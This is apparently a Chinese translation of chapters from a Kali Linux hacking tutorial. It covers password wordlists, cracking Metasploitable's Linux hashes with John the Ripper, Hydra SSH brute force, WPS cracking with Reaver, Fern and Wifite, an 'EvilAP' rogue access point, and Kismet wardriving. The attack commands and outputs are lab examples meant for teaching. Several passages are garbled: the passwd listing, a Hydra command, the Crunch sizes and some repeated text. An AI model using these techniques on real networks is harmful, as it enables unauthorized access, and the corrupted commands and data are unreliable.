最流行的可能是 RockYou 字典列表。这是一个包含数百万实际使用的密码的巨大集合，是从数据库转储中提取的。文件位于 `/usr/share/wordlists/` 目录，如下：

```
root@kali:/usr/share# cd wordlists/
root@kali:/usr/share/wordlists# ls
rockyou.txt.gz
```

如果你注意到，密码列表是压缩过的，因此在使用之前我们需要对其解压：

```bash
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz
root@kali:/usr/share/wordlists# ls
rockyou.txt
root@kali:/usr/share/wordlists#
```

# JOHN THE RIPPER 字典文件

广受欢迎的密码破解工具 John the Ripper 自带了一个相当较小的字典文件，但它包含了许多网络上常用的密码。

该文件位于 `/usr/share/john/` 目录，如下所示：

```bash
root@kali:/usr/share/john# ls password.lst
password.lst
root@kali:/usr/share/john#
```

# WFUZZ 多重字典文件

`Wfuzz` 是一个网站暴力破解工具。虽然并不是所有的字典文件都有用，但某些非常有意思，特别是“general”（通用）目录下的那些。

文件位于 `/usr/share/wfuzz/wfuzz/` 目录，如下所示：

```bash
root@kali:/usr/share/wfuzz/wfuzz/# ls
fuzzdb general Injections others stress vulns webersicces
root@kali:/usr/share/wfuzz/wordlist#
```

# 其他字典文件

如前所述，在 `/usr/share/` 目录下还有其他几个带有字典文件的程序。虽然 RockYou 可能再次是最好的之一，但如果你想要额外的字典，只需翻阅 `/usr/share/` 目录看看能发现什么。

# 字典文件生成器

Kali 中的几个工具可以让你创建自己的个性化字典文件。`CeWL` 非常不错，因为它让你通过从目标网站获取信息来创建密码。`Crunch` 也很好，因为它允许你从零开始创建自定义字典文件。

在本节中，我们将查看 `Crunch`。

# Crunch

`Crunch` 是一个非常强大的程序，允许你创建自己的密码列表。只需输入你想要的字符、长度和复杂度，`Crunch` 就会为你生成！

要打开 `Crunch` 的帮助页面，你需要使用 `man` 命令：

```bash
root@Kali:~# man crunch
```

# CRUNCH(2012年7月)

## 名称
crunch

## 概要
`<min-len> <max-len> [options]`

## 描述
`Crunch` 可以根据你指定的标准创建字典文件。`crunch` 的输出可以发送到屏幕、文件或其他程序。

## 参数

`min-len`
你想要开始的最小字符串长度。即使参数不使用该值，此选项也是必须的。

`max-len`
你想要结束的最大字符串长度。即使参数不使用该值，此选项也是必须的。

但基本上我们只需要告诉 `crunch` 最小和最大长度，以及使用什么种类型的字符。

`Crunch` 还大量使用了位于其安装目录 `/etc/share/crunch` 的 `charset.lst` 文件。因此，你需要从该目录运行 `crunch`，或者在使用更高级的字符集（如下所示）时使用 `-f` 开关指向该目录。

好了，让我们从一个简单的例子开始。

例如：

```bash


root@Kali:~# crunch 1 3 -o ThreeLetters.txt

将产生类似的内容：

- a, b, c, d, e, f, g, h, i, j, et...
- aa, ab, ac, ad, ae, af, ag, ah, ai, aj, et...
- aaa, aab, aac, aad, aae, aag, aah, aai, aaj, et...

基本上`crunch`从单个字母“a”开始，循环所有排列，直到达到“zzz”。

如果我们尝试不同的选项，就可以创建更复杂的列表，例如：

```bash
root@kali:/usr/share/crunch$ crunch 3 4abcd1234 -o alphaNumeric.txt
```

`Crunch`现在将生成以下量的数据：35721 bytes

0 MB

0 GB

0 TB

0 PB

`Crunch`现在将生成以下数量的行：7290

100%

这将创建一个以“aaa”开头并以“4444”结尾的字典文件，创建如`aal`、`bb3`、`2a21`和`e3da`这样的字母数字数字组合。

我们使用`charset.lst`文件，这样我们就不需要输入所有实际想要使用的字符，如果执行执行`cat charset.lst`，可以查看可用的命令：

```bash
root@kali:/usr/share/charset# cat charset.lst
# winrtgen v1.2 配置文件来自 Massiliano Montoro (maoox<)
# 兼容 rainbowcrack 1 及后续版本来自 Zhu Shanglei <shangelei@hotmail.com>
hex-lower = [0123456789abcdef]
hex-upper = [0123456789ABCDEF]
numeric = [0123456789]
numeric-space = [0123456789 ]
symbols1 The quieter = [!@#$%^&()_+-={}\|;':",.<>?/?]
symbols14 = [!@#$%^&()_+-=]
symbols-all = [!@#$%^&()_+-={}\|;;':",.<>?/?]
symbols-all-space = [!@#$%^&()_+-={}\|;;':",.<>?/?]
alpha = [ABCDEFGHIJKLMNOPghijklmnopqrstuvwxyz]
alpha-space = [ABCDEFGHIJKLMNOPghijklmnopqrstuvwxyz]
```

我们可以使用任何定义的集合，例如：

```bash
root@kali:/usr/share/crunch# crunch 2 4 -f charset.lst alpha-numeric-all -o mix.txt
```

`Crunch`现在将生成以下数据：39374 bytes

375 MB

0 GB

`Crunch`现在将生成以下数量的行：78916

花费了一点时间，但创建了一个包含 2 到 4 位字母、数字和符号的字典文件，这意味着你可以从某个单词开始，或者拥有第一部分和最后部分。这并不至关重要，因为一些高级的破解程序会自动完成这一点。

## 下载字典文件

如果上述信息没有帮助，或者你想要更多的字典文件，你也可以从网上下载。我过的最好的网站是`Skull Security`和`CrackStation`。

- **Skull Security:** http://www.security.org/wiki/index.php
- **CrackStation:** https://crackstation.net/buy-wordlist.htm 有几个被称为字典之母的地方！

## 结论

许多破解程序在使用字典文件时运行得更好。如果你有时间和耐心，你可以创建一个非常大的列表。互联网提供了一些你可以下载和使用的字典文件。

# 第23章 破解 Linux 密码

## 引言

在 Windows 中密码可以被破解，在 Linux 机器上也可以这样做。正如我们之前所描述的，我们通过使用`Metasploitable`漏洞获得了“root”权限。让我们以`Metasploitable`为起点：

```bash
[*] Sending backdoor command...
[*] Accepted the first connection...
[*] Accepted the second connection...
[*] Command: echo
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from socket A
[*] A: "sh: line 2: Connected: not found
sh: line 3: Escape: not found
[*] Matching...
[*] It is a thread...opened (192.168.1.149:4444 -> 192.168.1.145:5287) at 2013-11-01 18:52:43
root
```

好的，我们有一个远程 shell，我是 root 用户。现在我们需要的是恢复密码哈希值然后破解它们。简单地输入`cat /etc/passwd`：

```
root:x:0:root:/bin/bash
daemon:x:1:daemon:/usr/bin/bash
bin:x:2:bin:/bin/sh
sys:x:3:sys:/bin/sh
sync:x:4:65534:sync:/bin/sync
games:x:5:60:/usr/games/bin/sh
manager:x:6:12:manager:/var/cache/bin/sh
lp:x:7:7:/var/spool/lp/bin/sh
mail:x:8:8:/var/mail/bin/sh
news:x:9:news:/var/spool/news/bin/sh
uucp:x:10:100:uucp:/var/spool/uucp/bin/sh
proxy:x:11:13:proxy:/bin/sh
www-data:x:33:33:www-data:/var/www/bin/sh
backup:x:34:34:backup:/var/backups/bin/sh
list:x:38:38:Mailing List Manager:/var/list/bin/sh
irc:x:39:39:irc:/var/run/irc/bin/sh
gates:x:41:41:nats Bug-Reporting System (admin):/var/lib/gnats/bin/sh
ubuntu:x:65:65:nobody:/nonexistent/bin/sh
libuid:x:99:99:nonexistent:/var/lib/lib/sh
dxdp:x:101:102:nonexistent/bin/false
syslog:x:102:103:/home/syslog/bin/sh
log:x:103:104:/home/log/bin/false
message:x:104:105:/var/message/bin/sh
fadm:x:108:1000:msadm:/home/msadm/bin/sh
bind:x:105:113:cache/bind/bin/sh
postfix:x:106:115:/var/postfix/bin/sh
ftp:x:107:65534:/home/ftp/bin/sh
postgres:x:109:110:postgresql:/var/lib/postgresql/bin/sh
mysql:x:109:118:mysql:/var/lib/mysql/bin/sh
tomcat5:x:110:65534:/var/share/tomcat5/bin/false
dist:x:111:65534:/var/lib/dist/bin/sh
user:x:100:100:user:/home/user/bin/sh
serviceex:x:101:102:service:/var/service/bin/sh
tnetdata:x:112:122:/nonexistent/bin/false
proftpd:x:113:123:/var/run/proftpd/bin/sh
stat:x:114:65534:/var/lib/nfs/bin/sh
```

现在，只需将此文件中的文本复制到你的 Kali 系统，只需用鼠标选择文本并将其复制到 Kali 目录中的文本文件中。

我刚刚将文本放在一个名为“passwd”的文件中并保存在 Kali 桌面上：


现在对“shadow-”文件执行完全相同的操作。

现在你的 Kali 系统中应该有两个文件：`root/Desktop/passwd`和`root/Desktop/shadow-`。

接下来，我们需要获取这两个新创建的文本文件，并运行`John Ripper`工具集中的`unshadow`命令对它们进行处理。该命令会将文件合并成一个名为`cracked`的文件，`John the Ripper`就可以破解该文件：

```
root@kali:~# sudo unshadow passwd shadow- cracked
```

好了，现在我们已经有了合并后的`cracked`文件，可以对它释放`John the Ripper`尝试尝试找回密码了。

我们将使用`John`附带的词列表文件`password.lst`：


好了，有 7 个密码哈希，只剩下 1 个。现在使用`show`命令查看它发现了什么：


我们现在有了 6 个用户名和密码可以进行尝试。

- sys/ batman
- klog/ 1234567890
- msfadmin/ msfadmin
- postgres/ postgres
- user/ user
- service/ service

看起来这台机器的管理员使用了简单的密码，这不是个好主意。

# 使用 Hydra 自动化密码攻击

现在我们已经有了这些密码，可以获取它们并使用“Hydra”对`Metasploitable`系统的服务进行自动化攻击。

`Hydra`是一个暴力破解攻击程序，它可以接收用户列表和密码列表，并尝试它们的不同组合来攻击服务器。

如果我们创建一个包含用户名的文本文件，另一个包含上述获取的密码文件，就可以将它们输入`Hydra`等程序，通过自动测试这些密码来看看哪些服务可以攻破。

所以，如果我们想用新创建的密码攻击 SSH 服务，可以这样操作：

```
root@Desktop hydra -L user -P 192.168.198.145 ssh
Hydra v7.5 (c)2013 by van Hauser/HTC & David Maciejak - for legal purposes
Hydra (http://www.thecc.org/hydra) starting at 2013-11-02 16:35:44
[DATA] 16 tasks, 1 server, 81 login tries (1:9), -5 tries per task
[DATA] attacking ssh on port 22
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
KALI LINUX
The quieter you become, the more you are able to hear
[ ] host: 192.168.198.145 login: msfadmin password: msfadmin
1 target successfully completed, 1 valid password found
Hydra (http://www.thec.org/hydra) finished at 2013-11-02 16:36:02
root@Desktop #
```


“-L”参数列出我们的用户名文件，在本例中是`user`。“-P”参数是我们的密码文件位置，在本例中是`pass`。然后我们只需列出目标 IP 地址和目标服务即可！

（如果你更喜欢图形化界面，可以使用“在线密码攻击”菜单中的 Hydra-GTK）

如你所见，我们很快找到了用户名和密码的正确组合：`msfadmin/msfadmin`。

虽然尝试我们已经知道的小型密码列表有点愚蠢，但这个概念是可靠的。在没有任何实际密码的情况下，我们可以使用`hydra`配合大型用户名文件和字典文件来尝试暴力破解服务器。

## 结论

以上就是全部内容。因为我们拥有 root shell，所以我们能够通过将哈希值复制并粘贴到本地机器，从它们那里获取 Linux 哈希值。然后，我们就可以使用`John Ripper`来破解它们了。

如果你仔细观察之前教程中提到的 Metasploit 服务扫描程序，你可能会注意到某些程序留有设置用户名和密码的地方。如果将我们新破解的密码直接输入到这些扫描器并让它们释放到 Metasploitable 机器上，将会怎样？

此外，由于许多人在其他机器上多次使用相同的密码，我们可以使用相同的扫描器针对整个网络地址进行扫描，看看我们能访问多少其他机器！

如果 Linux 管理员更新了他的软件，或者即使使用了复杂的密码，这将会变得困难得多，甚至是不可能的。

最后，正如 Hydra 自动化攻击所示的那样，我们需要使用长且复杂的密码来保护服务器免受暴力攻击。

# 第六部分 – 路由器和 Wi-Fi 攻击

# 第24章 – 路由器攻击

### 资源

- Routerpwn
- Shodany.com

## 引言

最近，在常用的网络路由器中发现了几个关键漏洞。在大多数情况下，它们是网络的第一道防线，因此我认为花时间研究它们是非常重要的。

我们将查看路由器和无线网络被攻击的几种方法。

在本章中，我们将查看`Routerpwn`，这是一个包含路由器可执行漏洞的网站。然后，我们将查看攻击 Wi-Fi 安全设置（WPS）—— 一种基于按钮或 PIN 码设置 WPA/WPA2 网络的方法。

在接下来的章节中，我们将更深入地涵盖 Wi-Fi 网络的攻击。

但在之前，让我们聊聊路由器密码。

## 路由器密码

在所有设备中，路由器是最需要使用长复杂密码来安全的设备之一。

存在许多包含网络设备默认密码的网站。路过的黑客（寻找容易着手目标的人）做的第一件事就是尝试用于面向的设备的凭据。

遗憾的是，很多时候它们是有效的！

一些行业专家建议使用包含 12-15 个混合符号、数字和大小写字母的密码作为良好的密码。对于任务关键的面向互联网的路由器，我毫不建议使用其长度的两倍。

我还建议在不需要时关闭远程 Web 管理。这会立即阻止从互联网对路由器进行的任何更改。

## Routerpwn

虽然没有包含在 Kali 中，但`Routerpwn.com`可能是寻找路由器漏洞最简单的网站之一。该网页按制造商分类提供了路由器漏洞以及多种工具：

| | | | |
| :--- | :--- | :--- | :--- |
| Arris | Trend | Netgear | |
| ASUS | Link | TP-Link | |
| ASUS | Fiber | Ubiquiti | |
| Belkin | Huawei | Linksys | |
| Buffalo | D-Link | ASUS | |
| Cisco | D-Link | ASUS | |
| D-Link | Netgear | ASUS | |
| D-Link | TP-Link | ASUS | |
| D-Link | Ubiquiti | ASUS | |
| D-Link | Linksys | ASUS | |
| D-Link | Huawei | ASUS | |
| D-Link | Fiber | ASUS | |
| D-Link | ASUS | ASUS | |
| D-Link | Belkin | ASUS | |
| Huawei | Buffalo | ASUS | |
| Huawei | Cisco | ASUS | |
| Huawei | Netgear | ASUS | |
| Huawei | TP-Link | ASUS | |
| Linksys | D-Link | D-Link | ASUS | |
| Linksys | Huawei | ASUS | |
| Linksys | Fiber | ASUS | |
| Linksys | ASUS | ASUS | |
| Linksys | Belkin | ASUS | |
| Motorola | Buffalo | ASUS | |
| Motorola | Cisco | ASUS | |

（注：由于原文中表格存在大量重复的行项，译文已保持其格式结构）

要使用`Routerpwn`，只需点击制造商。下方是漏洞列表，显示日期、概要描述以及设置 IP 的选项：

| | | | |
| :--- | :--- | :--- | :--- |
| 02/19/16 | [+] | DSL-2640 | |
| 02/08/12 | [+] | DNS-320 | |
| 02/08/12 | [+] | DNS-320 | |
| 02/08/12 | [+] | DNS-320 | |
| 02/08/12 | [+] | DNS-320 | |
| 02/08/12 | [+] | DNS-320 | |
| 02/08/12 | [+] | DNS-320 | |
| 12/17/11 | [+] | DAP-1150 | |
| 02/10/12 | [+] | DSL-500T | |

`Routerpwn`包含一个 MAC 查找工具以及指向外部资源的链接。`Shodan`（`Shodany.com`）可能是攻击者在网络上寻找路由器和其他设备最简单的方法之一。大多数情况下，只需输入制造商名称作为关键词就会返回成千上万个结果。

如果你想对远程 IP 发起攻击，只需通过“Routerpwn”按钮设置 IP：

WPS 攻击程序将使用`Reaver`来破解 WPS 8 位密钥。因此，我们将首先查看如何使用`Reaver`，然后查看几个基于 GUI（图形）的程序。

## 使用 Reaver 攻击 WPS

`Reaver`是一个非常流行的 WPS 攻击工具。它包含在 Kali 中，并可以从命令行运行。

1. 首先，我们需要通过输入`airmon-ng wlan0 start`将 Wi-Fi 卡设置为监听模式。

如果一切顺利，你应该看到类似下面的内容：

| 接口 (Interface) | 芯片组 (Chipset) | 驱动 (Driver) |
| --- | --- | --- |
| wlan0 | Atheros AR9271 | ath9k - [phy3] (mon0 已启用监听模式) |

```
root@kali:~#
```

2. 现在输入`reaver`，并添加接口开关`-i`、目标开关`-b`以及目标路由器的 MAC 地址，然后使用`-vv`进行详细反馈。它看起来应该像这样：

```
root@kali:~# reaver -i mon0 -b b8:a3:85:aa:00:01 -vv
```

3. `Reaver`将随后开始破解 WPS 密钥。

现在让我们看看其他一些包含`reaver`的程序。

## 使用 Fern WiFi Cracker 攻击 WPS

`Fern WiFi Cracker`是测试无线网络安全的极佳工具。我们将在后面的章节中详细讨论如何使用`Fern`攻击 Wi-Fi 网络，但让我们先看看如何使用它攻击 WPS。

1. 在终端提示符输入`fern-wifi-cracker`。

2. 在“Select Interface”（选择接口）下拉菜单中，选择你的无线卡（`Wlan0`）。它应该显示“Monitor Mode Enabled on Mon(x)”：


3. 点击“Scan for Access Points”（扫描访问点）按钮。

4. 当找到访问点时，点击 WEP 或 WPS 按钮：


5. 选择你想要攻击的访问点名称，在我们的示例中是“Vulnerable”（脆弱）。

6. 在攻击选项下选择“WPS Attack”。

7. 然后按下“WiFi Attack”按钮。


8. `Fern`随后会尝试破解 WPS 密钥：


就是这样；如果成功了，我们应该能看到 WPS PIN，更重要的是看到 WPA 口令密码。

## 使用 Wifite 破解 WPS

`Wifite`是另一个非常实用的 Wi-Fi 测试程序，包含了 WPS 攻击能力。

1. 打开终端并输入`wifite`：

```
Wifite v2 (r85)

自动化无线审计

专为 Linux 设计

[+] 正在扫描无线设备... 完成

[+] 正在 wlan0 上启用监听模式...

[+] 正在扫描 (mon0)，每 5 秒更新一次，准备好后按 CTRL+C。

[00:08:04] 正在扫描无线网络。找到 0 个目标和 0 个客户端

[+] 正在扫描 (mon0)，每 5 秒更新一次，准备好后按 CTRL+C。
```

2. `Wifite`会初始化你的无线卡并设置为监听模式。随后它将扫描无线网络。

3. 网络将显示出来，一旦看到想要的网络，按下“Ctrl+C”：

4. 选择你想要攻击的目标。

```
NUM ESSID CH ENCR POWER WPS? CLIENT

1 dlink1 WPA2 70db wps

+] 选择目标数字 (1-1)，用逗号隔开，或输入 'all': 1
```

你可以通过此判断是否开启了 WPS，因为`wps`会在“WPS?”列下以绿色显示。

```
[00:00:00] 正在对 dlink BB:A3: 发起 WPS PIN 攻击

[0:01:22] WPS 攻击，8/18 成功/超时，完成 0.15% (6 秒/次)
```

正如我之前提到的，WPS 破解并不快，有些人说它可能需要 10 小时或更久才能完成。

此外，新的路由器具有针对此类攻击的保护机制，有些在尝试失败后会锁定 WPS。但在许多情况下，通过 WPS 破解路由器比尝试破解长长的 WPA2 口令要快得多。

## 结论

攻击路由器有多种方法，我们涵盖了最易用的方法之一——`Routerpwn`。我们还涵盖了攻击路由器的 WPS 能力。

如前所述，我们将在接下来的几个章节中花费更多时间讨论路由器，特别是 Wi-Fi 网络。

公司和家庭必须保持路由器固件更新，使用长且复杂的密码保护路由器，并在不需要时关闭 WPS。

# 第 25 节 – 无线网络攻击

### 资源

- Kali 无线适配器讨论：`http://forums.kali.org/showthread?php=423`
- Best-possible-wireless-adapter-for-linux-PCIe-USB

## 引言

无线网络和 Wi-Fi 设备已经渗透了家庭和商业领域。针对 Wi-Fi 网络的威胁已存在多年，尽管人们已经做出努力来锁定无线网络，但某些网络仍然处于开放状态或未良好保护。在本章中，我们将讨论无线安全和一些常见的 Wi-Fi 误区。我们将查看用于测试安全的流行工具。我们还将涵盖伦理黑客可以使用来检查网络安全性的若干技术。在这一部分的最后，我们将查看可以使 Wi-Fi 测试变得简单的菜单驱动程序。

## 无线安全协议

尽管消息正在传出，无线制造商正在将安全配置为其实设备的默认设置，但仍有大量的无线网络未设置。保护你的网络最重要的事情之一就是避免“None”（无），这基本上意味着你敞开大门让任何人访问。“WEP”在很久以前就被破解了，基本上意味着你锁了门但把钥匙留在了门垫下。“WPA”要好得多，而“WPA2”是你的网络最新且推荐的设置。下表（图 1）是根据我的数据创建的。

（此处显示图 1，但原文中未提供图片内容）

## 开始指南

你需要一个能够进入监听模式的无线卡。许多无线适配器可以做到这一点，有些不是。

需要一个无线适配器查看 Wi-Fi。

## 使用 Airmon-ng 查看无线网络

使用`Airmon-ng`工具查看 Wi-Fi 测试。

1. 打开终端并输入`ifconfig`。你应该看到类似`wlan0`。

2. 现在，我们需要将卡设置为监听模式。为了这样做，只需输入`airmon-ng start wlan0`：

（此处显示图片）

在本节中，你可以看到 Wi-Fi 固有的安全漏洞之一。通过 MAC 地址过滤客户端并不是一种非常有效的安全策略，因为通过物理地址查看哪些客户端连接到哪些 AP（接入点）非常简单。

攻击者只需要查看哪些地址已连接，并伪造（使用本章介绍的`macchanger`命令）该地址，过过就可以绕过 MAC 过滤了！

## 在 Wireshark 中查看 Wi-Fi 数据包和隐藏的 AP

另一个常见的 Wi-Fi 安全误区是认为，将你的无线接入点（Wireless Access Point）设置为使用“隐藏” SSID 会增加你网络的安全性。事实并非如此，我们将在本节中看到原因。

好了，我们已经看到了如何查看哪些 AP 可用，现在让我们看看如何在受欢迎的协议分析工具`Wireshark`中捕获并分析无线数据包。

只需像我们在上一个示例中那样将你的 Wi-Fi 网卡设置为监听模式（monitor mode），然后运行`Wireshark`。将网卡设置为监听模式将允许我们看到无线管理流量，如 AP 信包（Beacons）和探测包（Probes）：

```bash
root@Kali:~# airmon-ng start wlan0

root@Kali:~# wireshark &
```


（当你启动`airmon-ng`时，可能会收到一条消息，提示运行中的进程可能会导致问题，这些可以忽略。在`Wireshark`命令后使用的`&`告诉`Kali`运行`Wireshark`，并为你返回命令行提示符。）

`Wireshark`将打开，现在你只需要做的是：

- 1. 从接口列表中选择“mon0”
- 2. 点击“Start（开始）”。


`Wireshark`现在将开始使用无线网卡并开始从空中捕获网络控制数据包，你应该能立即看到所有 Wi-Fi Beacon 流量列表。

例如：

- 1 0.000000 Beacon frame, SN=3269, FN=0, SSID=Broadcast
- 2 0.028565 Beacon frame, SN=3318, FN=0, SSID=Terminator

在这里，你可以从两个独立的 AP 捕获数据。第一个被称为“Terminator”，但第一个是无效的。SSID 是“Broadcast”，这告诉我们这个 AP 的名称是隐藏的。这是一种保护无线网络的无效技术，我将向你展示原因。

如果客户端尝试连接到这个隐藏的 AP，我们会自动在“Probe Request”（探测请求）中捕获 SSID 名称。检查数据包捕获中的“Probe Requests”，我们实际上会看到如下的隐藏 SSID 名称：

- 93 0.623480 Probe Request, SN=0, FN=0, SSID=HiddenWiFi
- 99 0.712094 Probe Response, SN=843, FN=0, SSID=HiddenWiFi

没有在 Beacon 帧中显示的 AP 名称，一旦客户端尝试连接，它就会向我们显露！

客户端在探测请求中列出了隐藏的 AP 名称，在此例中为“HiddenWiFi”。AP 则会在 Probe Response（探测响应）中将其隐藏名称回给客户端。

要停止`Wireshark`捕获，只需使用菜单上的“Stop Capture（停止捕获）”按钮。然后你可以对结果进行搜索、过滤或保存。

## 将无线网卡转换为接入点

无线网卡的一个有趣特性是它们还可以充当接入点（Access Point）。这个功能对渗透测试人员非常有意义，但对恶意用户不利。你可以使用任何想要的 SSID 创建 AP。如果你创建的 AP 名称与现有 AP 相同，客户端将无法区分并连接到最近的一个或信号最强的一个。

一旦你的网卡进入监听模式（`airmon-ng start wlan0`），你就可以使用`Airbase-ng`命令将其转换为 AP：

```bash
root@Kali:~ airbase-ng -e "EvilAP" -c 6 mon0
```

该命令在信道 6 的`mon0`接口创建一个名为“EvilAP”的 AP。

```bash
root@Kali: # airbase-ng -e "EvilAP" -c 6 mon0

12:29:50 Created tap interface at0
12:29:50 Trying to set MTU on at0 to 1500
12:29:50 Trying to set MTU on mon0 to 1800
12:29:51 Access Point with BSSID F0:D1:B1:B3:F7:DF started.
```

此 AP 现在应该出现在任何附近的 Wi-Fi 客户端上：


一旦有人连接到它，它就会出现在我们的`Kali`系统上：

12:34:14 Client 78:E4:00FF2C:AB:01 (unencrypted) to SSID: “EvilAP”。为了完成从杰基尔博士到海德先生的转变，我们还需要配置`Kali`系统，以便为连接的客户端分配 IP 地址（DHCP），并控制它们可以查看的网站（DNS 欺骗）。

你可以手动完成这些，但有几个程序可以自动完成。`Kali`最近添加的“Ghost-Phisher”是一个，社会工程工具包（SET）无线 AP 攻击是另一个。它们允许你完全控制互联网与我们的无线客户端用户之间的通信。

根据最新的`Kali`版本，`Ghost-Phisher`是其中之一，`Social Engineering Toolkit`（SET）无线 AP 攻击是另一个。它们允许你完全控制互联网与我们的无线客户端用户之间的通信。

（注：原文最后部分存在文本重复，译文已按逻辑整合）

检测到某些后，它们将显示在 WIFI、WEP 或 WPA 图标中，如下：


- 3. 点击 WIFI 图标列表将列出你的网卡在该区域内可见的所有接入点：


- 4. 现在只需从目标接入点面板（Target Access Panel）选择一个接入点。然后选择 WPS 或常规攻击。

- 5. 我们将选择我们的 AP Terminator（顺便说，这是一个隐藏 AP，`Fern`毫无问题地发现了它），以及无线保护设置攻击（简称 WPS），并点击“Attack（攻击）”按钮：


`Fern`正确检测到我们的 AP 未启用 WPS。由于知道开启 WPS 的安全风险，我总是关闭我所有路由器上的 WPS。

在某些路由器上，WPS 功能容易受到暴力破解攻击，攻击者可以运行类似“Reaver”（`Fern`使用）的程序并获取路由器的访问（http://www.kb.cert.org/vuls/id/723755）。

由于此方法行不通，我们的下一步是尝试对路由器使用的密钥（passkey）进行字典攻击。

- 6. 只需选择“Regular Attack（常规攻击）”，然后选择一个要使用的词列表。在本例中，我们将使用位于`Fern` "/extras/wordlists" 文件夹中的“common.txt”词列表，如下所示：


攻击将尝试使用词列表中的每个单词对接入点密钥短语进行匹配：


正如下方所示，在字典攻击期间没有找到我使用的长复杂密码：


## 结论

在这一节中，我们发现使用`Fern Wacker`测试无线安全是多么简单。该程序允许我们快速发现和分析周围的网络，并选择测试哪一个。再次强调，选择 WPA2 和长复杂的密码将有助于保护你的无线网络。

# 第 27 章 – WiFi 测试

## 引言

有几个程序采用了`Aircrack-ng`工具集并为其添加了图形或文本菜单。这使得使用起来变得容易得多，无需记住所有单独的命令。现在我们将查看`Wifite`，这是一种快速且易于使用的菜单驱动程序，用于发现和测试无线网络。

## 使用 WiFi

- 1. 要启动`Wifite`，只需在终端提示符下输入`wifite`：

```bash
root@kali:~# wifite
```

- 2. `Wifite`将启动并自动扫描网络：


- 3. 此时，只需让它运行一会儿。你将看到无线网络随着它们的发现开始填充。当你觉得已经找到了正在寻找的网络时，按下 "CTRL-C"。

- 4. 系统会询问你想要攻击哪些 WiFi 网络。你可以通过逗号分隔它们的数字来选择单个，或者直接输入‘all’来攻击所有网络：


这里需要注意的几点：

- NUM: 你想要的 WiFi 网络数量
- ENCR: 网络正在使用的加密类型（Open 空、WEP、WPA、WPA2）
- POWER: 分贝级
- WPS: 是否启用了无线保护设置
- CLIENT: 是否有连接设备。如果连接了一个，将显示 'client'；如果存在多个，将显示 'clients'。

- 5. 对于此示例，“Vulnerable（脆弱）”似乎是一个很好的尝试对象。正如你所见，仅使用 WEP 加密很容易破解。`Wifite`立即开始并破解 WEP 密钥：


破解 WEP 密钥需要相当大量的初始化向量（IVs）。无线 AP 通常会生成 IV。一旦收集了足够的数据包，就可以像下面所示解码 WEP 密钥：


正如你所见，在这种情况下，`Wifite`成功破解了 WEP 密钥 "1234567890"。

## 使用 WiFi 进行进级攻击

我们还可以通过`--dictPath`切换包含一个字典文件以加速 WPS 密码的破解。通过将它们结合使用`RockYou`文件：

```bash
root@kali:~# wifite -e "Vulnerable" --dict /usr/share/wordlists/rockyou.txt
```

你可以使用`-all`配合`-wpa`攻击所有网络。此外，你可以使用`-p 60`配合`-wps`攻击所有功率超过 60 分贝的网络。

## 结论

在本章中，我们演示了如何使用`Wifite`程序通过易用的菜单系统测试无线安全。我们还讨论了如何使用命令行切换来自定义测试。`Wifite`是一个可以快速渗透网络的程序。

# 第 28 章 – Kismet

## 引言

如果你需要扫描公司的 WiFi 网络并对其创建报告，`Kismet`是一个非常棒的工具。`Kismet`在发现接入点和客户端方面表现出色，并以多种格式进行记录。

## 使用 Kismet 扫描

Kali Linux > Wireless Attacks > Wireless Tools

- 1. 从菜单启动`Kismet`以查看选项，或者直接在终端提示符输入“kismet”：


- 2. 在“Kismet running as root”消息处点击“OK”。

- 3. 点击“Yes”启动服务器：


- 4. 在服务器选项界面，你可以直接采用默认值并启动：


- 5. 控制台窗口将打开，几秒后会弹出一个窗口让你选择采集接口。在“Add a Source Now”提示符处，输入你的接口名称（例如`wlan0`）而不是 0。

- 6. 如果你的网卡处于监听模式，使用该名称（例如`mon00`）。在“Add Source”中点击“Yes”：


- 7. 就是这样！`Kismet`开始记录它看到的所有流量。

- 8. 控制台窗口关闭，现在看到主界面：

- 9. 当你觉得`Kismet`运行足够的时间时，点击`Kismet`菜单然后选择“Quit（退出）”。

- 10. 然后将询问你是否要停止`Kismet`服务器，直接点击“Kill（杀死）”：


| 附加信息 |
| :--- |
| 你听过“War Driving（无线驾驶）”这个术语。基本上意味着带着笔记本电脑开车。添加一个 GPS 源（如手机），`Kismet`会为每个网络添加位置。只需在开车运行时`Kismet`即可。`Kismet`运行得越长，你对周围环境的了解就越深入。 |

花点时间看一眼我们收集的数据。进入你的根目录，使用 "ls" 命令列出文件：

```bash
root@kali# ls

kismet-20130909-09-56-58-1.pcapdump kismet-20130909-09-56-59-1.nettxt
kismet-20130909-09-56-59-1.alert kismet-20130909-09-56-59-1.netxml
kismet-20130909-09-56-59-1.gpsxml
root@kali# #
```

这就是有趣所在的地方，收集的所有信息都位于这些文件中：

- **Pcapdump** 包含整个会话的数据包捕获
- **Alert** 包含生成的任何警报数据
- **Gpsxml** 如果使用了 GPS 源，则包含 GPS 数据
- **Nettxt** 包含以整洁文本输出收集的所有数据
- **Netxml** 包含所有 XML 格式的数据

## 在 Wireshark 中分析 Kismet PCAP Beacon 帧

注意第一个文件是每一个 pcap 文件或数据包捕获文件。这意味着可以在`Wireshark`等程序中打开该文件并查看`Kismet`检测到的每个数据包。

1. 在终端提示符启动`Wireshark` ("wireshark &")。
2. 加载 pcapdump 文件。点击 "File" 然后 "Open"，选择根目录下的 pcapdump 文件并点击 "Open"。


3. pcap 文件将在`Wireshark`中打开，你可以查看所有的信标控制帧（beacon control frames）：

如所示，`kismet`记录了扫描期间检测到的任何信标包的网络通信。信标包基本上是 Wi-Fi 设备用于发布其服务的管理包。

## Kismet 文本文件分析

最后让我们看看文本文件。

1. 用你喜爱的文本编辑器打开文本文件，或者可以直接“cat”该文件。为了演示，我将使用`Kali`自带的`Leafpad`。


文本文件为我们提供了大量信息，如上列出的每个 Wi-Fi 网络。它将每个接入点标记为网络，然后如下列出连接到它的每个客户端：

```text
Client 1: MAC
1C:30:8A:00:00:00
Manuf: Hewlett-Packard
First: Mon Sep 9 10:09:16 2013
Last: Mon Sep 9 10:09:16 2013
Channel: 7
```

## 结论

通过简单运行`Kismet`并分析日志，我们可以学很多关于周围网络的知识。

通过分析，日志可以告诉我们客户端是否连接了它们不应该连接的无线网络，还可能揭示组织中不应激活的违规 Wi-Fi 路由器。

最后，我们没有谈到的 XML 日志可以被其他程序用于创建交互地图或图表。

## 第 29 章 – Easy Credds

### 介绍

